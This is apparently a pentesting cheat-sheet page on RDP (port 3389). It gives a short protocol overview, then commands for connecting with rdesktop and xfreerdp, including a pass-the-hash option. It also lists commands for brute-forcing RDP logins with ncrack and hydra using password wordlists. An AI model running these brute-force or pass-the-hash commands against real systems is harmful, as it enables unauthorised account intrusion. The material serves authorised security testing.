 # RDP - 3389

## RDP

The Remote Desktop Protocol \(RDP\) that's used for communication between the Terminal Server and the Terminal Server Client. RDP is encapsulated and encrypted within TCP.

RDP is based on and is an extension of, the T-120 family of protocol standards. A multichannel capable protocol allows for separate virtual channels for carrying the following information:

* presentation data
* serial device communication
* licensing information
* highly encrypted data, such as keyboard, mouse activity

RDP is an extension of the core T.Share protocol. Several other capabilities are retained as part of the RDP, such as the architectural features necessary to support multipoint \(multiparty sessions\). Multipoint data delivery allows data from an application to be delivered in **real-time** to multiple parties, such as Virtual Whiteboards. It doesn't require sending the same data to each session individually.

{% embed url="https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol" %}



## RDP Authentication

### rdesktop

```text
rdesktop 192.168.10.10 -u username@corp -p 'p@ssw0rd!' -g 1024x768 -x 0x80
rdesktop -u <username> <IP> -g 1024x768 -x 0x80
rdesktop -d <domain> -u <username> -p <password> <IP> -g 1024x768 -x 0x80
```

### xfreedesktop

```text
xfreerdp /u:[domain\]<username> /p:<password> /v:<IP>
xfreerdp /u:[domain\]<username> /pth:<hash> /v:<IP>
xfreerdp /u:username /d:[domain] /p:<password> /v:<IP> /cert-ignore /f
```

### ncrack

```text
ncrack -vv --user administrator -P /usr/share/wordlists/rockyou.txt rdp://[IP]
```

### rdp\_check

```text
rdp_check <domain>\<name>:<password>@<IP>
```

### Remmina

## RDP Bruteforce

### hydra

```text
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
```






